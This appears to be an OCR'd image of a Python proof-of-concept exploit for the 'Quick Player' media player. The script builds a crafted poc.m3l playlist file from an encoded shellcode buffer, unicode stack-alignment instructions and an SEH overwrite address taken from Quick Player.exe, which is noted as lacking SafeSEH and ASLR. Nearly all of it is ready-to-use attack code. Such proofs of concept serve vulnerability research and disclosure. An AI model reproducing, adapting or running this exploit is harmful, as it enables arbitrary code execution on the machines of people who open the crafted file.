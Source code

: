```term
buf += b"\x31\x38\x6b\x78\x63\x6f\x44\x4e\x69\x42\x6b\x70\x34"
buf += b"\x52\x6b\x4d\x31\x5a\x4e\x6d\x61\x79\x6f\x70\x31\x67"
buf += b"\x50\x4b\x4c\x36\x4c\x62\x64\x69\x30\x34\x34\x6b\x57"
buf += b"\x67\x51\x58\x4f\x7a\x6d\x4d\x31\x49\x37\x48\x6b\x49"
buf += b"\x64\x4f\x4b\x33\x4c\x6e\x44\x6b\x78\x31\x65\x37\x71"
buf += b"\x72\x6b\x51\x4a\x4e\x44\x6b\x51\x4a\x4b\x71\x56\x54"
buf += b"\x4b\x7a\x6c\x4e\x6b\x34\x4b\x4f\x6a\x6d\x4c\x6b\x51"
buf += b"\x58\x6b\x32\x6b\x6a\x64\x62\x6b\x4b\x51\x68\x68\x55"
buf += b"\x39\x4f\x54\x4c\x64\x4d\x4c\x30\x61\x76\x63\x55\x62"
buf += b"\x39\x78\x4d\x59\x46\x74\x42\x69\x4a\x45\x54\x49\x59"
buf += b"\x32\x42\x48\x52\x6e\x4e\x6e\x5a\x6e\x78\x6c\x52\x32"
buf += b"\x6a\x48\x43\x6f\x6b\x4f\x69\x6f\x79\x6f\x61\x79\x30"
buf += b"\x45\x6c\x44\x47\x4b\x4a\x4f\x46\x6e\x39\x50\x31\x50"
buf += b"\x55\x37\x4d\x4c\x4e\x44\x6e\x72\x68\x68\x54\x4e\x79"
buf += b"\x6f\x49\x6f\x59\x6f\x75\x39\x6d\x75\x59\x78\x62\x48"
buf += b"\x52\x4c\x70\x6c\x4b\x70\x71\x31\x72\x48\x4e\x53\x4e"
buf += b"\x52\x6c\x6e\x63\x34\x52\x48\x54\x35\x42\x53\x33\x35"
buf += b"\x34\x32\x4c\x70\x77\x6b\x33\x58\x6f\x6c\x4f\x34\x5a"
buf += b"\x6a\x32\x69\x67\x76\x72\x36\x39\x6f\x31\x45\x49\x74"
buf += b"\x73\x59\x75\x72\x72\x30\x67\x4b\x56\x48\x55\x52\x70"
buf += b"\x4d\x57\x4c\x52\x67\x6b\x6c\x6d\x54\x62\x32\x58\x68"
buf += b"\x6f\x6f\x59\x6f\x59\x6f\x4b\x4f\x32\x48\x32\x4f\x72"
buf += b"\x58\x4e\x78\x4d\x50\x6f\x78\x51\x51\x61\x57\x31\x55"
buf += b"\x50\x42\x61\x58\x30\x4d\x30\x65\x32\x53\x62\x53\x4d"
buf += b"\x61\x59\x4b\x44\x48\x61\x4c\x4b\x74\x4a\x6a\x45\x39"
buf += b"\x4a\x43\x62\x48\x6e\x78\x6b\x70\x6f\x30\x4d\x50\x43"
buf += b"\x38\x52\x4f\x61\x63\x54\x34\x6b\x71\x61\x58\x42\x48"
buf += b"\x50\x65\x4f\x30\x50\x70\x52\x48\x62\x4e\x51\x57\x4b"
buf += b"\x70\x61\x64\x73\x38\x72\x45\x6f\x71\x30\x64\x32\x49"
buf += b"\x42\x48\x32\x4f\x51\x62\x6b\x70\x63\x42\x50\x68\x30"
buf += b"\x6b\x32\x53\x4f\x30\x73\x36\x42\x48\x62\x34\x73\x38"
buf += b"\x4f\x71\x50\x6e\x50\x31\x65\x79\x54\x48\x4e\x6c\x4d"
buf += b"\x54\x6d\x4c\x33\x59\x48\x61\x6d\x61\x57\x62\x71\x42"
buf += b"\x61\x43\x52\x31\x71\x42\x6b\x4f\x5a\x30\x6e\x51\x65"
buf += b"\x70\x62\x30\x49\x6f\x4e\x75\x6a\x68\x41\x41"

alignment = "\x54\x71"        # push esp, padding
alignment += "\x58\x71"       # push eax, padding
alignment += "\x05\x20\x22"   # add eax, 0x22002000
alignment += "\x71"           # Padding
alignment += "\x2D\x19\x22"   # sub eax, 0x22001900
alignment += "\x71"           # Padding
alignment += "\x50\x71"       # push eax, padding
alignment += "\xC3" 

ret = "\x71\x41" + "\xF2\x41" # 0x004100f2 : pop esi # pop ebx # ret 0x04 | startnull,unicode {PAGE_EXECUTE_READWRITE} [Quick Player.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v1.3.0.0 (C:\Program Files\Quick Player\Quick Player.exe)

buffer = "A" * 536 + ret + "\x41\x71\x41\x71" + alignment + "A" * 73 + buf + "C" * 200

f = open ("poc.m3l", "w")

f.write(buffer)

f.close()
```
